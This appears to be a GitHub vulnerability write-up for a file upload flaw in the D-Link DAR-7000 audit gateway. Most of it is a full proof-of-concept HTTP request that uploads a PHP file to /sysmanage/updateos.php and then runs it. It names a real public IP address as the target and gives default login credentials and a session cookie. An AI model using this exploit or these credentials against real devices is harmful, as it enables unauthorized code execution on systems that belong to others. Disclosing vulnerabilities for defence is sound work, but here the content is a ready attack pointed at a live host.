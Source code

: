 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/updateos.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=16b7d22c9d0e23596f887c0d3f7e7920
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="725" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/d02c0624-e1bc-4651-91fd-1d887cd724cb">

https://60.22.74.195:8443/home/1.php 

<img width="725" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b8c2de98-c0d7-46ef-8f80-3e1f3605bb67">

